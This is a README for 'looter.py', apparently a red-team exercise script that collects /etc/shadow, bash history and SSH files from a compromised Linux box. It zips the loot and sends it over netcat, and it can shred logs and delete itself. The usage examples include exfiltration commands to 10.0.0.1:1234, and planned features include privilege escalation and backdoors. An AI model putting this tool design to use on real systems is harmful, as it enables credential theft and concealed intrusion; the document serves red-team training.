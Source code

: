 #Module 1 - looter.py 
##Idea
On the 842 Ideas Spreadsheet, Andrew Kramer suggested the idea of creating an automated looting script that will collect relevant data for someone who gained root access to a box.  This is great for red team exercises where the attacker wants to be able to quickly grab useful files and data before getting booted off the system.

##Purpose
This script will crawl through a box and quickly collect useful information for an attacker.  The script will determine which OS it is on to ensure compatibility before attempting to collect anything.  The nest egg (collection stash) location will be in the present working directory of the script unless specified by the user.

This script makes an attempt is made to copy relevant files including but not limited to /etc/passwd, /etc/shadow, ~/.bash_history, etc to the nest egg location.  Once everything is collected, the files are prepared and zipped for exfiltration.  Currently, the script uses netcat to create a network connection to a listening post for exfiltration.

The goal is to be discreet and the script will shred logs, avoid writing to bash_history, and cover its own tracks after performing collections.

This Python script has been tested on Kali Linux 64 bit with Python 2.7.12.

##Help Screen 
```
usage: looter.py [-h] [-a] [-ne] [-d PATH] [-t TARGET] [-p PORT] [-r]

Looter script, collects juicy data for malicious use.

optional arguments:
  -h, --help            show this help message and exit
  -a, --all             perform all collections
  -ne, --noexfil        disable exfil feature, drop tar file in dir
  -d PATH, --dir PATH   specify nest egg path
  -t TARGET, --target TARGET 
  						specify exfil ip address (IPv4 only)
  -p PORT, --port PORT  specify exfil port number
  -r, --remove          remove script after execution
```
##Usage Examples

A collection without any exfiltration can be done with the command below:

```
python ./looter.py -a -ne
```

A collection with exfiltration to a specified IP address and port can be done with the command below:

```
python ./looter.py -a -t 10.0.0.1 -p 1234
```

Specifying the -r flag will cause the script to be destroyed after execution to cover its tracks:

```
python ./looter.py -a -t 10.0.0.1 -p 1234 -r
````

Specifying the -d flag with a valid path will change the default nest egg location:
```
python ./looter.py -a -t 10.0.0.1 -p 1234 -d ~/Desktop/
```

##Known Issues
* Random bug where user specified path sometimes causes zipping to fail
* Clean up collection of ~/.ssh/ file (currently throws everything into single folder with everything else)
* Not sure how "discreet" the script is yet, plenty of room for improvement

##Future Work
* Continue to expand list of useful / interesting files to capture
* Search ssh known_hosts file and attempt to log into entries
* Dump any databases into a file
* Run a quick internal network scan and output into a file

##Long Term Goals
* Attempt privilege escalation
* Attempt to install a basic backdoor
* Provide OS compatibility across OSX, Windows, and *nix

##Resources
https://pymotw.com/2/argparse/

http://stackoverflow.com/questions/3718657/how-to-properly-determine-current-script-directory-in-python

http://stackoverflow.com/questions/110362/how-can-i-find-the-current-os-in-python

http://stackoverflow.com/questions/2032403/how-to-create-full-compressed-tar-file-using-python

http://stackoverflow.com/questions/4417546/constantly-print-subprocess-output-while-process-is-running

https://docs.python.org/2/library/os.path.html#os.path.basename

http://stackoverflow.com/questions/29065781/how-can-i-get-a-python-program-to-kill-itself-using-a-command-run-through-the-mo


